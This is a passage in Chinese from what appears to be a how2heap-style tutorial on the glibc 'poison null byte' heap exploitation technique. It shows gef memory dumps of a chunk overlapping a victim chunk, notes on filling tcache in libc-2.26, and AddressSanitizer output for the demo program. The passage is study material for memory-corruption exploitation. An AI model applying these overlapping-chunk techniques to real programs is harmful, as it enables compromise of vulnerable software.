 ```c
      av->top = p;
      check_chunk(av, p);
    }
```

接下来，申请一块大空间，大到可以把 chunk b2 包含进来，这样 chunk b2 就完全被我们控制了。
```
gef➤  x/42gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x0000000000000000	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000000121  <-- chunk d
0x603030:	0x4242424242424242	0x4242424242424242
0x603040:	0x4242424242424242	0x4242424242424242
0x603050:	0x4242424242424242	0x4242424242424242
0x603060:	0x4242424242424242	0x4242424242424242
0x603070:	0x4242424242424242	0x4242424242424242
0x603080:	0x4242424242424242	0x4242424242424242
0x603090:	0x4242424242424242	0x4242424242424242
0x6030a0:	0x4242424242424242	0x4242424242424242
0x6030b0:	0x4242424242424242	0x4242424242424242  <-- chunk b2  <-- 'victim' chunk
0x6030c0:	0x4242424242424242	0x4242424242424242
0x6030d0:	0x4242424242424242	0x4242424242424242
0x6030e0:	0x4141414141414141	0x4141414141414141
0x6030f0:	0x4141414141414141	0x4141414141414141
0x603100:	0x0000000000000000	0x0000000000000021  <-- small bins
0x603110:	0x00007ffff7dd1b88	0x00007ffff7dd1b88      <-- fd, bk pointer
0x603120:	0x0000000000000020	0x0000000000000000
0x603130:	0x0000000000000110	0x0000000000000090
0x603140:	0x0000000000000000	0x0000000000020ec1  <-- top chunk
gef➤  heap bins small 
[ Small Bins for arena 'main_arena' ]
[+] small_bins[1]: fw=0x603100, bk=0x603100
 →   Chunk(addr=0x603110, size=0x20, flags=PREV_INUSE)
```
还有个事情值得注意，在分配 chunk d 时，由于在 unsorted bin 中没有找到适合的 chunk，malloc 就将 unsorted bin 中的 chunk 都整理回各自的 bins 中了，这里就是 small bins。

最后，继续看 libc-2.26 上的情况，还是一样的，处理好 tchache 就可以了，把两种大小的 tcache bin 都占满。

heap-buffer-overflow，但不知道为什么，加了内存检测参数后，real size 只能是正常的 0x10 了。
```
$ gcc -fsanitize=address -g poison_null_byte.c
$ ./a.out 
We allocate 0x10 bytes for 'a': 0x60200000eff0
'real' size of 'a': 0x10
b: 0x611000009f00
c: 0x60c00000bf80
=================================================================
==2369==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x611000009ef8 at pc 0x000000400be0 bp 0x7ffe7826e9a0 sp 0x7ffe7826e990
READ of size 8 at 0x611000009ef8 thread T0
    #0 0x400bdf in main /home/firmy/how2heap/poison_null_byte.c:22
    #1 0x7f47d8fe382f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #2 0x400978 in _start (/home/firmy/how2heap/a.out+0x400978)

0x611000009ef8 is located 8 bytes to the left of 256-byte region [0x611000009f00,0x61100000a000)
allocated by thread T0 here:
    #0 0x7f47d9425602 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x98602)
    #1 0x400af1 in main /home/firmy/how2heap/poison_null_byte.c:15
    #2 0x7f47d8fe382f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
```
